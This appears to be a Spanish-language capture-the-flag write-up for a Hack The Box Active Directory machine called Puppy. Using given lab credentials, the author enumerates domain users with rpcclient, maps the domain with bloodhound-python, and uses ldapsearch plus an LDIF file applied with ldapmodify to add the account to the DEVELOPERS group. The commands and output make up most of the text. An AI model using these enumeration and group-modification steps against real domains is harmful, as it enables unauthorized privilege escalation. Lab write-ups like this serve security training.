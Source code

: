 Nos proporcionaran las credenciales del usuario levi.james, procederemos a enumerar los usuarios mediante rpcclient, posteriormente los almacenaremos en un txt por si posteriormente lo necesitamos.
```bash
└─# rpcclient -U levi.james%KingofAkron2025! -W puppy.htb 10.10.11.70
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[levi.james] rid:[0x44f]
user:[ant.edwards] rid:[0x450]
user:[adam.silver] rid:[0x451]
user:[jamie.williams] rid:[0x452]
user:[steph.cooper] rid:[0x453]
user:[steph.cooper_adm] rid:[0x457]
```

Ahora sincronizaremos la hora con el dominio para evitar posibles problemas, es importante tener la IP apuntando correctamente al dominio en el fichero /etc/hosts
```bash
└─# ntpdate puppy.htb
2025-07-11 13:06:14.736452 (-0400) +25200.486878 +/- 0.026779 puppy.htb 10.10.11.70 s1 no-leap
CLOCK: time stepped by 25200.486878
```

Generearemos un archivo que podamos visualizar en bloodhound
```bash                                                                                                                                                                                                                                           
┌──(root㉿kali)-[~/THM/Puppy]
└─# bloodhound-python -u 'levi.james' -p 'KingofAkron2025!'  -d puppy.htb -ns 10.10.11.70 -c All --zip
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: puppy.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (dc.puppy.htb:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: dc.puppy.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc.puppy.htb
INFO: Found 10 users
INFO: Found 56 groups
INFO: Found 3 gpos
INFO: Found 3 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC.PUPPY.HTB
INFO: Done in 00M 11S
INFO: Compressing output into 20250711060801_bloodhound.zip
```
Si recordamos cuando enumeramos los directorios de smb uno de ellos nos decia que era accesible por puppy devs

<img width="678" height="297" alt="image" src="https://github.com/user-attachments/assets/e5fd618d-0942-42b6-999e-a8d0b849f8d8" />

Desde Bloodhound podemos ver como tenemos permisos para modificar el grupo de devs, por lo tanto procederemos a añadirnos al grupo de devs.

<img width="1002" height="135" alt="image" src="https://github.com/user-attachments/assets/b8601b89-0ed2-4b96-9c0c-529e275d9e49" />

Ahora pasaremos a ejecutar el comando ldapsearch, esto con la finalidad de obtener el dn tanto del usuario del que tenemos credenciales como del grupo al que lo queremos añadir.

```bash
└─# ldapsearch -x -H ldap://puppy.htb -D "puppy\\levi.james" -w 'KingofAkron2025!' -b "DC=puppy,DC=htb" "(sAMAccountName=levi.james)"
# extended LDIF
#
# LDAPv3
# base <DC=puppy,DC=htb> with scope subtree
# filter: (sAMAccountName=levi.james)
# requesting: ALL
#

# Levi B. James, MANPOWER, PUPPY.HTB
dn: CN=Levi B. James,OU=MANPOWER,DC=PUPPY,DC=HTB
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Levi B. James
sn: James
givenName: Levi
initials: B
distinguishedName: CN=Levi B. James,OU=MANPOWER,DC=PUPPY,DC=HTB
instanceType: 4
whenCreated: 20250219121056.0Z
whenChanged: 20250711141817.0Z
displayName: Levi B. James
uSNCreated: 12798
memberOf: CN=HR,DC=PUPPY,DC=HTB
uSNChanged: 172196
name: Levi B. James
objectGUID:: 2UDSk6IBfU2UQ8vUlLk8rg==
userAccountControl: 66048
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 133862719957678511
lastLogoff: 0
lastLogon: 133967278104209708
pwdLastSet: 133844406569969717
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAQ9CwWJ8ZBW3HmPiHTwQAAA==
accountExpires: 9223372036854775807
logonCount: 2
sAMAccountName: levi.james
sAMAccountType: 805306368
managedObjects: OU=MANPOWER,DC=PUPPY,DC=HTB
userPrincipalName: levi.james@PUPPY.HTB
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=PUPPY,DC=HTB
dSCorePropagationData: 20250509173106.0Z
dSCorePropagationData: 20250219131504.0Z
dSCorePropagationData: 16010101000416.0Z
lastLogonTimestamp: 133967170971710058
msDS-SupportedEncryptionTypes: 0

# search reference
ref: ldap://ForestDnsZones.PUPPY.HTB/DC=ForestDnsZones,DC=PUPPY,DC=HTB

# search reference
ref: ldap://DomainDnsZones.PUPPY.HTB/DC=DomainDnsZones,DC=PUPPY,DC=HTB

# search reference
ref: ldap://PUPPY.HTB/CN=Configuration,DC=PUPPY,DC=HTB

# search result
search: 2
result: 0 Success

# numResponses: 5
# numEntries: 1
# numReferences: 3
```
```bash
└─# ldapsearch -x -H ldap://puppy.htb -D "puppy\\levi.james" -w 'KingofAkron2025!' -b "DC=puppy,DC=htb" "(sAMAccountName=developers)" dn
# extended LDIF
#
# LDAPv3
# base <DC=puppy,DC=htb> with scope subtree
# filter: (sAMAccountName=developers)
# requesting: dn 
#

# DEVELOPERS, PUPPY.HTB
dn: CN=DEVELOPERS,DC=PUPPY,DC=HTB

# search reference
ref: ldap://ForestDnsZones.PUPPY.HTB/DC=ForestDnsZones,DC=PUPPY,DC=HTB

# search reference
ref: ldap://DomainDnsZones.PUPPY.HTB/DC=DomainDnsZones,DC=PUPPY,DC=HTB

# search reference
ref: ldap://PUPPY.HTB/CN=Configuration,DC=PUPPY,DC=HTB

# search result
search: 2
result: 0 Success

# numResponses: 5
# numEntries: 1
# numReferences: 3
```
Una vez obtenidos ambos dn procederemos a crear un archivo ldif que se encargue de añadir el usuario al grupo correspondiente

```bash
dn: CN=DEVELOPERS,DC=PUPPY,DC=HTB
changetype: modify
add: member
member: CN=Levi B. James,OU=MANPOWER,DC=PUPPY,DC=HTB
```
Ahora ejecutaremos el archivo ldif, y verificaremos que seamos miembros del grupo
```bash
└─# ldapsearch -x -H ldap://puppy.htb -D "puppy\\levi.james" -w 'KingofAkron2025!' -b "CN=DEVELOPERS,DC=PUPPY,DC=HTB" member
# extended LDIF
#
# LDAPv3
# base <CN=DEVELOPERS,DC=PUPPY,DC=HTB> with scope subtree
# filter: (objectclass=*)
# requesting: member 
#

# DEVELOPERS, PUPPY.HTB
dn: CN=DEVELOPERS,DC=PUPPY,DC=HTB
member: CN=Jamie S. Williams,CN=Users,DC=PUPPY,DC=HTB
member: CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB
member: CN=Anthony J. Edwards,DC=PUPPY,DC=HTB

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```
```bash
└─# ldapmodify -x -H ldap://puppy.htb -D "puppy\\levi.james" -w 'KingofAkron2025!' -f mod.ldif
modifying entry "CN=DEVELOPERS,DC=PUPPY,DC=HTB"
```
```bash                                                                                                             
┌──(root㉿kali)-[~/THM/Puppy]
└─# ldapsearch -x -H ldap://puppy.htb -D "puppy\\levi.james" -w 'KingofAkron2025!' -b "CN=DEVELOPERS,DC=PUPPY,DC=HTB
# extended LDIF
#
# LDAPv3
# base <CN=DEVELOPERS,DC=PUPPY,DC=HTB> with scope subtree
# filter: (objectclass=*)
# requesting: member 
#

# DEVELOPERS, PUPPY.HTB
dn: CN=DEVELOPERS,DC=PUPPY,DC=HTB
member: CN=Jamie S. Williams,CN=Users,DC=PUPPY,DC=HTB
member: CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB
member: CN=Anthony J. Edwards,DC=PUPPY,DC=HTB
member: CN=Levi B. James,OU=MANPOWER,DC=PUPPY,DC=HTB

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```
